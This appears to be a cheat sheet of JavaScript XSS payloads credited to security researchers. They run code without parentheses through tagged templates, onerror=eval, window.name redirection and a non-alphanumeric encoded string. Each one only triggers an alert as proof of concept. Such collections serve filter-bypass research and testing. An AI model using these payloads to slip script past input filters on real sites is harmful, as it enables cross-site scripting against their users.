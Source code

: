     [].map.call`${eval}\\u{61}lert\x2823\x29`

----

[Garethheyes](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

    window.name='javascript:alert(23)';
    Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`;

----

Only Firefox [h43z](https://twitter.com/h43z)

    throw onerror=eval,SyntaxError`alert\x2823\x29` 

----

Only Firefox [h43z](https://twitter.com/h43z)

    throw onerror=eval,Error`alert\x2823\x29`

----

[h43z](https://twitter.com/h43z)

    throw Uncaught=onerror=eval,e=Error`*/;alert\x2823\x29`,e.name='/*',e

----

[Garethheyes](https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis)

    [][[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]][[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]]`$${[!{}+[]][+[]][+!+[]]+[!{}+[]][+[]][+!+[]+!+[]]+[!{}+[]][+[]][+!+[]+!+[]+!+[]+!+[]]+[!![]+[]][+[]][+!+[]]+[!![]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[+!+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]}$```//Function(alert(1))

----

[terjanq](https://twitter.com/terjanq/status/1126614389371621378)

xss_redir.html
```
window.name='1;var Uncaught=1;alert(23)';
location='xss_short.html';
```
xss_short.html
```
{onerror=eval}throw/0/+name
```

---